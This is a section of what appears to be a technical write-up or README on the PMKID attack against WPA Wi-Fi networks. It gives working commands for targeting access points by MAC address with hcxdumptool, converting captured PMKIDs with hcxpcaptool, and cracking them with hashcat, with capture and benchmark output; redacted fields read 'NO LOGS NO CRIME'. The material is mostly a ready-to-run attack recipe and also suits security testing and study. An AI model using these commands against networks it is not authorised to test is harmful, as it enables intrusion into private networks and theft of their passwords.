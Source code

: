 #### 6.1. References
```
https://github.com/ZerBea/hcxdumptool
https://github.com/ZerBea/hcxtools
https://github.com/hashcat/hashcat
https://hashcat.net/forum/thread-7717.html
```


#### 6.2. Target AP by MAC addresses
```
# cat targets
DEADBEEF0001
DEADBEEF0002
DEADBEEF0003
DEADBEEF0004
```


#### 6.3. Collecting PMKIDs
```
# hcxdumptool -o beef.pcapng -i $iface -c 136, 60, 52 \
--enable_status=3 --filterlist=beef --filtermode=2

...
[04:39:48 - 136] deadbeef0001 -> deadbeeffff1 [FOUND PMKID CLIENT-LESS]
[04:39:50 - 136] deadbeef0002 -> ffffffffffff CG-WLAN [PROBEREQUEST, SEQUENCE 2076]
[04:39:56 - 136] deadbeef0003 -> deadbeeffff2 [FOUND PMKID CLIENT-LESS]
[04:40:15 - 136] deadbeef0004 -> ffffffffffff lisy [PROBEREQUEST, SEQUENCE 517]
INFO: cha=136, rx=16166, rx(dropped)=541, tx=51, powned=2, err=0^C
terminated...
```


#### 6.4. Convert PMKID to WPA-PMKID-PBKDF2 hash
```
# hcxpcaptool -z beef.16800 beef.pcapng
...
EAPOL PMKIDs.................: 2

2 PMKID(s) written to beef.16800
```


#### 6.5. Cracking via `hashcat`
```
# hashcat -m 16800 beef.16800 passwords.txt
```


#### 6.6. Hashcat benchmarks (`2 x Tesla P100-PCIE` via `nvidia-smi`)

1) 8 chars lowercase
```
Session..........: hashcat
Status...........: Running
Hash.Type........: WPA-PMKID-PBKDF2
Hash.Target......: [NO LOGS NO CRIME]
Time.Started.....: [NO LOGS NO CRIME] (8 secs)
Time.Estimated...: [NO LOGS NO CRIME] (2 days, 19 hours)
Guess.Mask.......: ?l?l?l?l?l?l?l?l [8]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   440.7 kH/s (64.47ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#2.........:   440.8 kH/s (64.46ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#*.........:   881.5 kH/s
```

2) 10 chars lowercase
```
Hash.Type........: WPA-PMKID-PBKDF2
Hash.Target......: [NO LOGS NO CRIME]
Time.Started.....: [NO LOGS NO CRIME] (50 secs)
Time.Estimated...: [NO LOGS NO CRIME] (5 years, 27 days)
Guess.Mask.......: ?l?l?l?l?l?l?l?l?l?l [10]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   440.7 kH/s (64.47ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#2.........:   440.8 kH/s (64.46ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#*.........:   881.5 kH/s
```
